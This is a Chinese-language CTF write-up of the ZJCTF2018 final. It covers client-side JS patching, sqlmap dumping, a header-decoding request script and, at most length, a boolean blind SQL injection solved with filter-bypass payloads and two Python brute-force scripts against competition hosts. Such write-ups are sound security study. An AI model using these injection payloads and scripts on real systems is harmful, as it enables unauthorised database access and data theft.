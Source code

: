# ZJCTF2018 final
#CTF/Writeup
记录一下省赛线下这一天我参与的题目，以作留存。

## 0x01你追我赶
看到这道题，先抓包，发现包内有静态 js 文件：`/static/game/index.js`

而且源码里也提示题目是 offline，可以想见这道题目的总体思路是修改本地逻 辑。 这是一个以 chrome 恐龙游戏为基础的题目，在以前也做到过，不同的是，在 home 页面可以看到游戏规则里写坚持 1 分钟即可获得 flag。因此改分数是不太对的， 所以我选择搜索碰撞逻辑然后修改,去掉了 else 后面调用 gameover 的代码，这样 就不会碰撞了：
![](ZJCTF2018%20final/%E5%B1%8F%E5%B9%95%E5%BF%AB%E7%85%A7%202018-11-05%20%E4%B8%8A%E5%8D%888.56.05.png)
五分钟后还原代码，然后用 burp 拦截 ajax 请求，在回复报文中获得 flag。 当然，在写 wp 复看这段代码的时候还找到了 post 请求的代码段，这样自主发包 想必应该也是一种思路。
决赛后新加post成功后的四张图片像素位比较，因为misc我不管，在此就不多赘述。

##  0x02知法懂法
Sqlmap扫id字段dump出整个数据库，比对每一条和网络安全法有什么区别。发现第二十九条与标准法不同。
然后猜谜，该提交什么呢，往哪里提交呢？ctf真是一个猜谜游戏，爆了网页，爆了属性名，最后发现提交正确的第二十九条内容即可获得flag


## 0x03再快一点
原题，存在于各类基础ctf题库，脚本如下：
```
import requests
import base64

url= ‘http://172.21.1.102:61234/hC1DU4oEZ3’
s = requests.Session()
flag = base64.b64decode(base64.b64decode(s.get(url).headers[‘flag’]).decode(‘utf-8’).split(‘:’)[1]) 
postdata = {‘margin’:flag}
*print*(s.post(url, data=postdata).text)
```


## 0x04Blind
写这篇writeup就想记录一下这个耻辱，自己拱手相让的冠军真的很令人难受。
### 基础性判断判断：
当被字符等截断前的数字为1-5时返回you find it!，被过滤字符返回Probably you need an other mothod.，其余返回hide more deep。
发现黑名单字符为：`> <> != ' %27 # and union 空格`
未被过滤的字符为：`() ^ or %20 - CHAR() "  %00 select <`
确定是字符型注入：`1-1`结果未变
所以暂且把hide more deep当作**错误值**，you find it!当作**正确值**，因为需要用`or`连接，所以第一位要先取错误值，比如`0`，然后or后拟构造出一个true，让查询返回正确，否则返回错误。过程中发现，虽然`'`被过滤，但是`”`却可以完成构造，说明字符串被双引号闭合，所以完成poc也不成问题。

### 最后构筑payload结构如下：
 `0"or"1"^"1"^(xxxxxx)--%20` 
ps1: 我🐎也不知道狗哥在帮试payload的时候经历了什么，核心payload的前面要加”1”^”1”，讲道理这样能用的话，只要在核心前加“0”即可，不过令人奇怪的是：or”1”^”1”和or1^1返回的结果有差异，可能数据库是MSSQL之类的原因。
ps2：由于当时我在尝试了> 和<>没有试<，理所当然觉得<也被过滤了，是我的失误，所以最后用减号，这大大降低了脚本的优势，以至于我后来一直选择burp工程锤来爆破。
不管怎么说，总算是能用了。

### 编写脚本：
脚本里用到的payload如下：
 `0"or"1"^"1"^(ascii(substr(database(),{0},1))-{1})--%20` 
脚本编辑如下：
```
# POST boolean blind sql injection
import requests

url = 'http://172.21.1.102:61234/iFmn2H0UOq'
s = requests.Session()
key = ''

for pos in range(1,2): 
	for mid in range(0,127):
		payload = r'0"or"1"^"1"^(ascii(substr(database(),{0},1))-{1})--%20'.format(pos,mid)
		data = {'id':payload,'Submit':'Search'} 
		r = s.post(url, data=data)
		print(len(r.text))
		# if b"Hide more deep" in r.content:
		if len(r.text)==647:
			break

	key += chr(mid)
	print(key)
print("result:",key)
```
很遗憾，不知道为何，同样的payload，在burp下能爆出来，脚本就会出现问题，原因大抵是python对payload中双引号的处理可能和正常报文有所不同，我也不是特别熟悉request模块，所以在此即然burp能用，就索性用了burp。

### burp上爆肝一般的爆破开始：
使用payload如下：
`0"or"1"^"1"^(ascii(substr(((select group_concat(xxx) from xxx)),{0},1))-{1})--%20`
* 爆数据库名：
`0"or"1"^"1"^(ascii(substr((((select group_concat(schema_name) from information_schema.schemata))),{0},1))-{1})--%20`
获得`information_schema tips useless`
* 爆表名：
`0"or"1"^"1"^(ascii(substr(((SELECT group_concat(table_name) FROM information_schema.tables)),{0},1))-{1})--%20`
800字长。。。。。
* 爆字段名：
`0"or"1"^"1"^(ascii(substr(((select group_concat(xxx) from xxx)),{0},1))-{1})--%20`
1200字长。。。。。没有写脚本真的很僵。所以就在这里卡住了。。。
中间还用了max和min,爆出了zjctf这个表名，判断是useless.zjctf，然而依旧无济于事，最终没找到正确的列名比赛就结束了。
现在想想，应该是去解决我脚本上的问题，而不是头铁来用burp爆。

### 拜读ch1p战队wp后的总结和思考
几个点：
1. 首先，他们和我一样，burp上正确的payload用在脚本中就会出现问题，他们的结论是`--`上会有问题，这我就没有深究出来。而且，他们及时转换策略，将`--`换成了`or "-`，使脚本能够成功运行。哎
2. 在poc的设计上，使用`/**/`代替空格，我用`^()`取代了空格；`in`取代比较字符，所以用了substr却没加ascii。没有使用`<`我觉得在这句话来讲是有问题的，首先是编写脚本的时候就不能用二分法加快搜索速度，其次是不区分大小写的特性导致了后面爆writeup出现问题。

**其部分wp如下：**
在当前库tips中，并没有发现flag ,需要进行跨库查询，首先需要先在information_schema库中，获得所有的库名。
payload:`payload = '-1" or substr((select group_concat(table_schema) from information_schema.tables where table_schema not in ("information_schema","tips")),%s,1) in ("%s") or "0'`
得到还存在一个名为userless 的数据库，查询其表段，得知存在zjctf 表，flag 在其content 字段。
跑出的 flag 为：zjctf{aa0_bl1nd_hha} 但是上交时提示错误。懵了一会儿后突然想起in 是不区分大小写的。 那么猜测大写字母，针对 flag 中唯一的单词，尝试提交aa0_Bl1nd_hha 成功！

下面是完整的脚本：
```
"""
    Author:Li4n0
    Date:2018-11-4
"""
import requests
import string

# in 不区分大小写 需要自己再判断一次

url = 'http://172.21.1.102:61234/iFmn2H0UOq'
#payload = '-1" or substr((select group_concat(column_name) from information_schema.columns where table_name in ("zjctf")),%s,1) in ("%s") or "0'

#payload = '-1" or substr((select group_concat(table_schema) from information_schema.tables where table_schema not in ("information_schema","tips")),%s,1) in ("%s") or "0'

payload = '-1" or substr((select group_concat(content) from useless.zjctf),%s,1) in ("%s") or "0'
key = ''
length = 1
while True:
    for i in string.printable.replace('#', ''):
        data = {
            'id': payload.replace(' ', '/**/') % (str(length), i),
            'Submit': 'Search'
        }
        r = requests.post(url, data=data)
        if 'You find' in r.text:
            key += i
            length += 1
            break
    print(key)
```
个人认为，这个脚本，精髓就在where后的`in`和`not in`，败笔在(“%s”)前的`in`。不管如何，它能跑出答案，一切都无所谓了。


END:)


